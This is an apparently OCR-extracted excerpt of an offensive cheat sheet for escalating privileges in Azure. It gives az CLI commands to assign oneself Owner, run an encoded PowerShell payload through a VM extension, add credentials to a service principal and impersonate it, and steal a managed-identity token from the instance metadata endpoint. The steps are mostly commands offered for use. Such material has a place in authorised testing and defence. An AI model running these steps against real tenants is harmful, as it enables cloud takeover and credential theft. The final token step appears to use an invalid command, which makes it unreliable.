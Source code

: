 ```bash
az ad signed-in-user show
az role assignment list --all
az ad sp list
```

***

#### ⚙️ 2. Role Escalation via `User Access Administrator`

If assigned this role:

```bash
az role assignment create --assignee <your_id> --role "Owner"
```

***

#### 💣 3. Abusing Contributor Role

Contributor can **write** configurations, **deploy code**, and **create identities**, but not manage access.\
Use it to deploy a VM extension that runs arbitrary PowerShell:

```bash
az vm extension set --publisher Microsoft.Compute --name CustomScriptExtension --vm-name target --resource-group RG --settings '{"commandToExecute":"powershell -enc <payload>"}'
```

***

#### 🧩 4. Service Principal Takeover

If you can modify a service principal:

```bash
az ad sp update --id <object-id> --add passwordCredentials=@creds.json
```

→ Add your own password, authenticate as that service principal.

***

#### ⚙️ 5. Managed Identity Abuse

When an Azure VM exposes metadata:

```bash
curl -H Metadata:true "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```

Use access token to impersonate identity:

```bash
export AZURE_ACCESS_TOKEN=<token>
az account set --access-token $AZURE_ACCESS_TOKEN
```

***
